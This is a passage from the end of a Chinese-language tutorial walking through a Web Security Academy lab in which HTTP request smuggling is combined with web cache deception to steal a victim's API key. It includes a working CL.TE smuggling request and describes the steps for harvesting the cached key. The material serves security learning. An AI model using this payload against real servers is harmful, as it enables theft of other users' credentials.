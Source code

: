[![](assets/1704418275-9a7fe4906debc1f8d7314b1500b033e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170659-73d67dc2-aa17-1.png)

[![](assets/1704418275-ce1718e7a06dd7432b7d51eaf60acb6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170706-77abc614-aa17-1.png)  
从数据包中可以看的并没有缓存的防御头信息  
[![](assets/1704418275-dccb305a798c99d67a75fa1d6727e06c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170717-7e3d3396-aa17-1.png)  
随后构造一下请求走私的数据包

```bash
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-3cccfa12870f49fc975c214786865ae9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170737-8a1ec0f8-aa17-1.png)  
重复这个请求几次，然后在匿名浏览器窗口中加载主页

[![](assets/1704418275-1330fbaae7730cf4984b670ad4a71ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170751-92accf62-aa17-1.png)  
使用 Burp 菜单上的搜索功能来查看“Your API Key”是否出现在任何静态资源中，如果没有则重复 POST 请求，强制重新加载浏览器窗口并重新运行搜索  
[![](assets/1704418275-339822a168ccccb02266bb8b8c5f43a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170806-9b6ace1a-aa17-1.png)

提交受害者的 API 密钥作为实验室解决方案

[![](assets/1704418275-d89cc86e96f624484639f1c713959ef7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170818-a2801b60-aa17-1.png)

## 文末小结

本篇文章主要怼请求走私的原理、请求走私的检测方式、利用请求走私绕过检测或限制、请求走私的扩展利用方式进行了全方面的介绍，由于篇幅问题这里就不再继续去深入探索 HTTP2.0 版本的请求走私问题了，后续有时间再进行补充说明~

## 参考链接

[https://www.youtube.com/watch?v=w-eJM2Pc0KI](https://www.youtube.com/watch?v=w-eJM2Pc0KI)  
[https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)
